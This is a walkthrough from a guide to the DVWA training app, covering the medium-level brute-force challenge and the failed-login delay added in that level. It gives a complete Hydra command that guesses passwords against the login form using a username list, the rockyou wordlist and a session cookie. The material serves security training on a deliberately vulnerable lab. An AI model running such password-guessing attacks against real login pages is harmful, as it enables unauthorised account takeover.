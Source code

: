 <b>Challenge URL:</b> /dvwa/vulnerabilities/brute/
<br>
<b>Objective:</b> Brute force the administrator's password.
<br>
<b>Bonus objective:</b> Find the other four users' usernames and brute force each password.
<br>
<b>Tools needed:</b> Hydra
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/README.md" target="_blank">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Since this challenge is very similar to the easy mode challenge, I'd highly recommend re-reading <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2001:%20Brute%20Force.mdd" target="_blank">our notes from before</a>. We'll be using a lot of the analysis and code from before.</i>

<h3><b>What's Changed</b></h3>

Let's start by clicking the "View Source" button on the bottom right of the challenge.

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/brutesource.png" width="500">

It looks like the developer added a timeout for failed logins, causing the program to sleep for two seconds.

<h3><b>Crafting a New Exploit</b></h3>

Very little should change for this version of the challenge, including how we enumerate usernames. The only difference is the speed you'll discover each credential set. Let's run our old command, changing the cookie values as appropriate, and verify our assumption.

<code>hydra -L users.txt -P rockyou.txt -s 80 dvwa http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=medium; PHPSESSID=[your_value_here]"</code>

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/brutesuccess.png" width="500">

Yep, the only thing that's changed is the time it took to finish. Challenge complete!
